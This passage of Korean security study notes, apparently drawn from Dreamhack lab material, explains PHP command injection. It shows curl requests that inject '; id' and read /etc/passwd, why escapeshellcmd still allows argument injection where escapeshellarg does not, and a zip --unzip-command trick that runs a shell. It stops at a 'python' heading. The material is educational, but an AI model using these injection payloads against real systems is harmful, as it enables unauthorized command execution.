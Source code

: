 ```php
dreamhack@ubuntu:~$ curl 'http://dreamhack.local/a.php?filename=-al /etc/passwd; id'
-rw-r--r-- 1 root root 1602 May  4 04:35 /etc/passwd
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
```

Command Injection을 막기 위해 다른 커맨드를 실행할 수 있는 메타 문자를 모두 이스케이프 처리해 주는 `escapeshellcmd` 를 활용해 패치해보았다.

```php
<?php
  $cmd = "ls ".escapeshellcmd($_GET['filename'])." 2>&1";
  system($cmd);
```

특정 커맨드의 인자로 입력  값을 사용할 때 `escapeshellarg` 대신 `escapeshellcmd` 를 사용할 경우 공격자는 임의 인자를 추가적으로 입력할 수 있게 된다.

```php
php > var_dump(escapeshellcmd("a -h -d -e"));
string(10) "a -h -d -e"
php > var_dump(escapeshellarg("a -h -d -e"));
string(12) "'a -h -d -e'"
php >
```

`escapeshellcmd`함수를 사용하면 아래와 같이 메타 문자는 사용하지 못하지만, `ls` 명렁어의 옵션 또는 인자를 조작할 수 있다.

```bash
dreamhack@ubuntu:~$ curl 'http://dreamhack.local/a.php?filename=-al%20/etc/passwd;%20id'
ls: cannot access '/etc/passwd;': No such file or directory
ls: cannot access 'id': No such file or directory
dreamhack@ubuntu:~$ curl 'http://dreamhack.local/a.php?filename=-al%20/etc/passwd'
-rw-r--r-- 1 root root 1602 May  4 04:35 /etc/passwd
```

### 취약한 실행 파일

> `ls` 명령어에 옵션을 추가한다고 해서 특별히 커맨드 실행이 가능한 것은 아니다. 하지만 몇개의 프로그램에서는 옵션으로 원하는 커맨드를 실행할 수 있는 기능을 제공하고 있다. 대표적인 프로그램으로 zip / python이 있으며 해당 기능은 다음과 같이 이용할 수 있다.
{: .prompt-tip }

- zip

```bash
# zip /tmp/test.zip /etc/passwd -T --unzip-command="sh -c id"
$ strace -e execve zip /tmp/test.zip /etc/passwd -T --unzip-command="sh -c id"
execve("/usr/bin/zip", ["zip", "/tmp/test.zip", "/etc/passwd", "-T", "--unzip-command=sh -c id"], 0x7fffe1dc1320 /* 31 vars */) = 0
updating: etc/passwd (deflated 64%)
uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=13097, si_uid=1000, si_status=0, si_utime=0, si_stime=0} ---
test of /tmp/test.zip OK
+++ exited with 0 +++
```

- python
